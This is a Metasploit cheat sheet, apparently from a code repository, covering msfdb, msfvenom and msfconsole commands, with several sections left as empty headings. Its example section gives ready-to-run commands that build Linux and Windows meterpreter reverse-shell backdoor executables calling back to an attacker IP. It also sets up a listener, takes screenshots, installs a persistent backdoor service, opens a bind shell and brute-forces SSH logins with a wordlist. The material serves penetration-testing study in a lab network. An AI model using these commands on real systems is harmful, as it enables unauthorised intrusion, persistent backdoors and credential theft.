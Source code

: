 # metasploit framework

## msfdb

```bash
kali:~ # msfdb init         # initialize db
kali:~ # msfdb reinit       # reinitialize db
kali:~ # msfdb delete       # delete db
kali:~ # msfdb start        # start db service
kali:~ # msfdb stop         # stop db service
kali:~ # msfdb status       # check db service status
kali:~ # msfdb run          # start db service

# deafult db is postgre
kali:~ # cat /usr/share/metasploit-framework/config/database.yml
```


---

## msfvenom

```bash
kali:~ # msfvenom -h
kali:~ # msfvenom -l payloads|format|archs
kali:~ # msfvenom -p <payload> LHOST=<kali ip> LPORT=<kali port> -f <format> -o <file>
# LHOST: local host, LPORT: local port
```


---

## msconsole

### basic

```bash
kali:~ # msfconsole

msf6 > help
msf6 > help <cmd>

msf6 > set <VAR> <var>      # set variable
msf6 > get <VAR> <var>      # get variable
msf6 > setg <VAR> <var>     # set global variable
msf6 > getg <VAR> <var>     # get global variable
```


---

### core command


---

### module command


---

### job command


---

### resource script command

```bash
kali:~ # cat >> <script> < EOF
use exploit/multi/handler
set PAYLOAD <payload>
set LHOST <kali ip>
set LPORT <kali port>
show options
EOF

# run script
kali:~ # msfconsole -q -r <script>

# command script
msf6 > resource <script>    # run command with file
msf6 > makerc <script>      # save command with file
```


---

### database backend command


---

## credentials backend command


---

## developer


---

## example

###  network topology

```
kali           target machine
192.168.0.10   192.168.0.20
   |              |
   |              |
   +--------------+...
```


### reverse_tcp / reverse_http / reverse_https / bind_tcp

```bash
# gen backdoor
kali:~ # msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f elf -o backdoor    # for linux
kali:~ # msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f exe -o backdoor.exe  # for windows

kali:~ # msfconsole

msf6 > use exploit/multi/handler
msf6 > show options
msf6 > set PAYLOAD linux/x86/meterpreter/reverse_tcp    # for linux
msf6 > set PAYLOAD windows/meterpreter_reverse_tcp      # for windows
msf6 > set LHOST 192.168.0.10                           # local host / controller ip
msf6 > set LPORT 4444                                   # local port / controller port
msf6 > exploit                                          # wait target run backdoor

meterpreter > pwd
meterpreter > ls
meterpreter > screenshot
meterpreter > run vnc
meterpreter > run metsvc [-d | -h ]                      # backdoor serivce
meterpreter > quit

msf6 > quit

msf6 > use exploit/multi/handler
msf6 > set payload windows/metsvc_bind_tcp
msf6 > set lport 31337
msf6 > set rhost 192.168.0.20
msf6 > exploit
```


---

### ssh

```bash
msf6 > search ssh

msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 > show options
msf6 > set THREADS 3
msf6 > set RHOSTS 192.168.0.20
msf6 > run

msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 > show options
msf6 > set THREADS 3
msf6 > set RHOSTS 192.168.0.20
msf6 > set STOP_ON_SUCCESS true
msf6 > set VERBOSE true
msf6 > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
msf6 > set USER_AS_PASS true
msf6 > run
```
